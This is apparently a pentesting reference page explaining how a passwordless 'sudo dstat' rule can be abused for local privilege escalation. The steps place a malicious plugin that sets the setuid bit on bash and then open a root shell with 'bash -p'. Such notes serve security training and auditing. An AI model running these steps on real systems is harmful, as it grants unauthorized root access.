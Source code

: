 ```yaml
---
title: Sudo Dstat Privilege Escalation
description: Sudo dstat command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


**dstat** is a versatile tool for generating system resource statistics.  
It allows users to create a custom plugin and execute by adding option e.g. **`dstat --myplugin`**.  

## Investigation

```sh
sudo -l

(ALL) NOPASSWD: /usr/bin/dstat
```

If we can execute **"dstat"** command as root, we can gain access to privileges by using our malicious plugin.

<br />

## Exploitation

### 1. Create a New Dstat Plugin

First off, find locate the **"dstat"** directory.

```sh
find / -type d -name dstat 2>/dev/null
```

Assume the location of dstat is **“/usr/local/share/dstat”**.  
Create a plugin called **"dstat_exploit.py"** under **"/usr/local/share/dstat/"**.

```sh
import os

os.system('chmod +s /usr/bin/bash')
```

dstat recognizes plugins under **"/usr/local/share/dstat/"**.  
Check if the above exploit plugin has been added by executing the following command.

```sh
dstat --list | grep exploit
```

### 2. Execute Dstat with the Malicious Plugin

Now execute **"dstat"** with **“—exploit”** flag (the flag name is determined by the suffix of the file name e.g. **"dstat_\<plugin-name\>.py"**).

```sh
sudo /usr/bin/dstat --exploit
```

The exploit plugin executed so we enter bash as root.

```sh
bash -p
```